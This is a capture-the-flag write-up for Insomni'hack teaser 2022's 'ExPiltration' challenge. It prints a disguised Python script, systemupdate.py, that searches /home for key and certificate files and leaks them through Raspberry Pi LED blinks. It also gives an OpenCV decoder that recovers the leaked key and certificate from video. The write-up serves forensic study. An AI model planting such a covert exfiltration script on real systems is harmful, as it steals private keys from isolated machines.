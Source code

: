 ```yaml
---
title: Insomni'hack teaser 2022 – ExPiltration
date: '2022-01-30'
draft: false
authors: ['blueset']
tags: ["Insomni'hack teaser 2022", 'Misc', 'Python', 'CV', 'Video', 'Binary']
summary: 'Leak data via LED lights.'
---
```

## ExPiltration
> by Kev1n
>
> Oh shit.. (!) Our network has been compromised and data stored on an air-gaped device stolen but we don't know exactly what has been extracted and how? We have 24/7 video surveillance in the server room and nobody has approched the device.. Here is all I have, could you please give us a hand?
>
> [forensic-data.zip](https://static.insomnihack.ch/media/forensic-data-4e3c106c44132d3fb368ba26675169fe4f10289da7bd637c3b3cc0e570579efa.zip)

Download the zip archive and open it to review a huge file structure.

```
Archive:  forensic-data-4e3c106c44132d3fb368ba26675169fe4f10289da7bd637c3b3cc0e570579efa.zip
  Length      Date    Time    Name
---------  ---------- -----   ----
        0  03-19-2022 15:42   forensic-data/
354284310  03-19-2022 15:42   forensic-data/surveillance-camera42-2022.03.19_part8.mp4
(...omitted 3616 files...)
     1322  03-19-2022 15:42   forensic-data/storage/usr/bin/systemupdate.py
---------                     -------
371628093                     3619 files
```

Content of `forensic-data/storage/usr/bin/systemupdate.py`:

```py
import os
import time
import binascii

DELAY = 0.05

def init_leds():
	os.system("echo none > /sys/class/leds/led0/trigger")
	os.system("echo none > /sys/class/leds/led1/trigger")

def restore_leds():
	os.system("echo mmc0 > /sys/class/leds/led0/trigger")
	os.system("echo default-on > /sys/class/leds/led1/trigger")

def text_to_bits(text, encoding='utf-8', errors='surrogatepass'):
    bits = bin(int(binascii.hexlify(text.encode(encoding, errors)), 16))[2:]
    return bits.zfill(8 * ((len(bits) + 7) // 8))

def exfiltrate(data):
	stream = text_to_bits(data)
	for b in stream:
		if b=='0':
			os.system("echo 0 > /sys/class/leds/led0/brightness")
		else:
			os.system("echo 1 > /sys/class/leds/led0/brightness")

		time.sleep(DELAY)
		os.system("echo 1 > /sys/class/leds/led1/brightness")
		time.sleep(DELAY)
		os.system("echo 0 > /sys/class/leds/led1/brightness")
		time.sleep(DELAY)

def find_scret_file(path):
	files = []
	for r, d, f in os.walk(path):
		for file in f:
			if '.key' in file or '.crt' in file:
				files.append(os.path.join(r, file))

	for f in files:
		print("[+] Secret file discovered ({0}).. starting exfiltration".format(f))
		with open(f, 'r') as h:
			data = h.read()
		exfiltrate(data)

def main():

	init_leds()
	find_scret_file("/home")
	restore_leds()

if __name__ == '__main__':
	main()
```

`forensic-data/surveillance-camera42-2022.03.19_part8.mp4` is an 1-hour video recording a Raspberry Pi with blinking green and red LEDs.

![Screenshot of the video](/static/images/insomnihack-teaser-2022/surveillance-camera42-2022.03.19_part8-0001.png)

Looking at the source code, we can see that the script is encoding files to binary and sending them out through blinking LED lights. What we need to do is to extract the blinking patterns and revert them to the original files.

From online resources about Raspberry Pi, we can know that `led0` is the green LED and `led1` is the red LED.

A Python script can be written to extract the luminosity of the LEDs frame-by-frame. The luminosity can then be polarized and compared to extract the bits.

```py
import cv2
import tqdm
import bitstring

def rgb_to_luminance(r, g, b):
    return 0.2126 * r + 0.7152 * g + 0.0722 * b

vidcap = cv2.VideoCapture('surveillance-camera42-2022.03.19_part8.mp4')

with tqdm.tqdm(total=vidcap.get(cv2.CAP_PROP_FRAME_COUNT)) as t:
    success, image = vidcap.read()
    t.update(1)
    led0 = []
    led1 = []
    while success:
        led0.append(rgb_to_luminance(*image[550][717]))
        led1.append(rgb_to_luminance(*image[550][735]))
        success, image = vidcap.read()
        t.update(1)

bits_raw = []
start = 0
end = 0
threshold = 210
is_on = True
for i in range(len(led0)):
    if is_on and led1[i] < threshold:
        is_on = False
        end = i
        bits_raw.append(sum(led0[start:end]) / (end - start))
    elif not is_on and led1[i] > threshold:
        is_on = True
        start = i

bits = [0 if i < threshold else 1 for i in bits_raw]

b = bitstring.BitArray(bin="".join(map(str, bits[1:])))
print(b.bytes.decode())
```

Below is a partial visualization of the luminosity of the LEDs frame by frame. The part shown below gives bytes `…000 0011 0111 0101 0101 0101 0110 010…`, which is `…7UV…` in ASCII bits.

![Partial visualization of the luminosity of the LEDs](/static/images/insomnihack-teaser-2022/visualization-led.png)

A Root Certificate Authority certificate and a private key is found from the extracted data.

```
-----BEGIN RSA PRIVATE KEY-----
Proc-Type: 4,ENCRYPTED
DEK-Info: DES-EDE3-CBC,3DCC451E9205CCE3

nDrRqGRPQ2/ngMd3+93aVspUPtLszfEqmBMdY7FGwDOzjR4qW/TAvGutNj5BNNkM
4P1D4+3wNo0vnNCzgBw+MCS6J5Ipo7SV/Gvcg+Y0vzroOdp3q7Qw6FJP0BdCW2y5
khy6K52JwLjfLnekpBGMA/3fl3pzOgKthQqYllFLrJBeNCo8BFSn/PN80oucpBXv
V+F4aFs57dkoPwCvoB7djmLfpTRCOr0j2PeaqKrUq975nt4Ot+iXy6AURCIt7Z9m
sCxU8bwMHIwUqok/VI39UzGO5xTWp1ffrYR1jaDD6WlGSe2duPeG/zeM60E1R8nP
gZpR1zKpH8QOBuVC433glT5LXqfstPmt7MDwnTawkABvFYIElm4Guegm7NdQSPj/
jAXbZRc5Ww7pt2oFcwzW+uXBYEF2g92rxtUDW0wmgTduNASz59OnYEOr5Ly7NQnh
3V+Vcsrgc4Aowi1z6kCpvHoA4Cg7kZanpNguQ6NeXsCNr94P795ffhuRuXOPnwte
pkEpEplOFLOhJgHST/6ACoiJCc4nYuyKBoH07zJ7WHktryT/655EINwuBx5mVoye
2DykTBypxrcJedPBKxSWmAOOY0QnNMABZsOzgPR9wh/uIEw/zInkdTNN0iYpF8TX
EFY0uBjj7IzDQ10Sb9dcnFRB4AFuqOA7GOhh0U7VxZlhtT6UzSb/O+/smNwOD4IU
qj8LVnaZMVW4MmBbEKzsKOGhOvLHrfLVIBFdn5hTHamwS2H87UVXMLtFFPrFz6JC
zHbOb6I2f7gHzvJJPvB4eSMwAZw/iSpRoyJG7PwIKQsb6/GauV7Rfw==
-----END RSA PRIVATE KEY-----
-----BEGIN CERTIFICATE-----
MIIDHDCCAoWgAwIBAgIUTIdoG+aad3eIE+iXDUKZCohVKkQwDQYJKoZIhvcNAQEL
BQAwgZ8xCzAJBgNVBAYTAkNIMQ8wDQYDVQQIDAZHZW5ldmExEDAOBgNVBAcMB1Bh
bGV4cG8xFTATBgNVBAoMDEluc29tbmknaGFjazEhMB8GA1UECwwYSU5Te0Y0ckZy
MG0kcDMzZDBmTDFnaHR9MQ4wDAYDVQQDDAVLZXZpbjEjMCEGCSqGSIb3DQEJARYU
a2V2aW5AaW5zb21uaWhhY2suY2gwHhcNMjAwMzAzMTYxOTE1WhcNMjIxMjIyMTYx
OTE1WjCBnzELMAkGA1UEBhMCQ0gxDzANBgNVBAgMBkdlbmV2YTEQMA4GA1UEBwwH
UGFsZXhwbzEVMBMGA1UECgwMSW5zb21uaSdoYWNrMSEwHwYDVQQLDBhJTlN7RjRy
RnIwbSRwMzNkMGZMMWdodH0xDjAMBgNVBAMMBUtldmluMSMwIQYJKoZIhvcNAQkB
FhRrZXZpbkBpbnNvbW5paGFjay5jaDCBnzANBgkqhkiG9w0BAQEFAAOBjQAwgYkC
gYEAxx9oaesqRe4b0wLER6ppALJYrm5qrWu/uqzgy7qjpDKg5BBSl5F+Y2TgwS09
pW5tBylKr92DES19o4cm/8g1wa0iZ9BDeSvbn8g+rTLGHTgctMW2wUg/SMQ9j/G7
nyr5oMiPkJ69kz1We83RJofCK1w8QZVr7UAwDlC1rR6V1gkCAwEAAaNTMFEwHQYD
VR0OBBYEFA130/zdKufEuzcn+cCVwoO84z7iMB8GA1UdIwQYMBaAFA130/zdKufE
uzcn+cCVwoO84z7iMA8GA1UdEwEB/wQFMAMBAf8wDQYJKoZIhvcNAQELBQADgYEA
k0guKE9tSrNYUyeAEsXba15SV0TGg6n+QCD/Co0XvDo7D2yKEfSMnDfjMkv+39E+
U//PN4LT/R6xl2XdqQV1Rk0tFHTrHRzQps/ispaR3lC3VLkx8/KK05eSvKMr1C80
4jzMs6Qw6bT8Dj83eMfjizl3tlE997DgGpruRaOaEOE=
-----END CERTIFICATE-----
```

Save the certificate part to a file, use OpenSSL to inspect it, and find the flag in the Organization Unit field.

```sh
openssl x509 -in root-ca.crt -text -noout
```

